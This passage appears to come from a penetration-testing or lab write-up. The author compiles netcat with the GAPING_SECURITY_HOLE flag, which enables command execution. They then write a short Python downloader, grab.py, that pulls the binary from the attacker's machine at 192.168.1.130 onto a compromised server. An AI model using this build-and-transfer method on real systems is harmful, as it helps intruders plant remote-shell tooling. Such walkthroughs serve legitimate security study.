 A few changes needed to be made to get it to compile without errors. I commented out line 1319 in netcat.c:

->![](/images/2013-12-12/11.png)<-

Next, I modified the Makefile and added -DGAPING_SECURITY_HOLE to the XFLAGS in line 70: 

->![](/images/2013-12-12/12.png)<-

Finally I built it using make linux. Now that netcat was compiled, I needed a way to transfer it. Fortunately python was installed on the server. I wrote the following python script which would download the statically linked netcat to the target:

```python
#!/usr/bin/python
import urllib2, urllib, sys
urllib.urlretrieve("http://192.168.1.130/" + sys.argv[1], sys.argv[1]);
```

I saved this as grab.py. Finally I copied netcat to /var/www on my machine and start the Apache webserver. Using grab.py, I transferred netcat over:

->![](/images/2013-12-12/13.png)<-
